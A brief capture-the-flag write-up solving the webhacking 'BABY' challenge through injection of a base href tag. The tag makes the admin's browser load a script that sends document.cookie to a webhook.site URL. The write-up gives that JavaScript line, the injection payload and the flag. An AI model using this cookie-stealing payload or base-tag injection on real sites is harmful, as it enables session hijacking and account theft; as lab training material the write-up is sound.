

# webhacking BABY Solution

Here we can inject tag, we can inject this:
`<base href="ourDomain.com">`

Then, the admin will go there.
I just put `script.js` on my github pages, this is the `script.js` file:
```
window.location.href = "https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies="+document.cookie;
```

And then, just give this payload to the admin:
```
?inject=<base href="https://avishaigonen123.github.io/">
```





**Flag:** ***`FLAG{base_is_basic}`*** 
